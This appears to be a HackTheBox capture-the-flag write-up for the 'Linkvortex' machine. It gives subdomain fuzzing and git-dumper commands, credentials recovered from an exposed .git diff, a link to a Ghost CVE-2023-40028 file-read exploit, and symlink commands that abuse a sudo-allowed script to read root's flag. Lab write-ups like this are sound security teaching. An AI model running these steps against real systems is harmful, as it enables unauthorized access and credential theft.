 ```yaml
---
title: "Linkvortex"
date: 2023-11-06
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "linkvortex", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Enumeration

>- Fuzzing subdomain gave `dev.linkvortex.htb`
- `git diff --staged` provides credentials.
- Logging into the admin panel with the credentials shows the version number

### 80-HTTP

#### Directory Fuzzing

```text
http://linkvortex.htb/ghost/assets/
http://linkvortex.htb/assets/
http://dev.linkvortex.htb/.git

ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![[Pasted image 20250117125044.png]]

#### Web

http://dev.linkvortex.htb

![[Pasted image 20250117124820.png]]

http://linkvortex.htb/ghost/assets/

![[Pasted image 20250117124508.png]]

http://linkvortex.htb/assets/

![[Pasted image 20250117124548.png]]

![[Pasted image 20250117123835.png]]

### Git

```sh
git-dumper http://dev.linkvortex.htb/.git ~/LinkVortex/git
```

![[Pasted image 20250117125449.png]]

```text
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

![[Pasted image 20250117134405.png]]

![[Pasted image 20250117134450.png]]

```text
const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
```

![[Pasted image 20250117140032.png]]

> `admin@linkvortex.htb` worked for the password `OctopiFociPilfer45`

![[Pasted image 20250117140928.png]]

https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028/blob/master/CVE-2023-40028

![[Pasted image 20250117141249.png]]

From git
![[Pasted image 20250117142242.png]]

![[Pasted image 20250117142322.png]]

New credentials found

```text
bob@linkvortex.htb
fibber-talented-worth
```

![[Pasted image 20250117142436.png]]



# Foothold
- CVE 2023-40028 arbitrary file read
- Looking at file output on the git command shows another credentials.
- SSH as bob user.

# Lateral Movement
- N/A

# Privilege Escalation
- Running *lse.sh* shows that the bob user can run `/opt/ghost/clean_symlink.sh` script on all png files.
- `ln -s` to create a symlink on `/root/root/txt`

![[Pasted image 20250117142920.png]]
![[Pasted image 20250117143148.png]]

# clean_symlink.sh
![[Pasted image 20250117143436.png]]

`ln -s ` : Creating a symlink 

```sh
bob@linkvortex:~$ ln -s /root/root.txt abc.txt
bob@linkvortex:~$ ln -s /home/bob/abc.txt abc.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```

```sh
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/abc.png
```

![[Pasted image 20250117144045.png]]
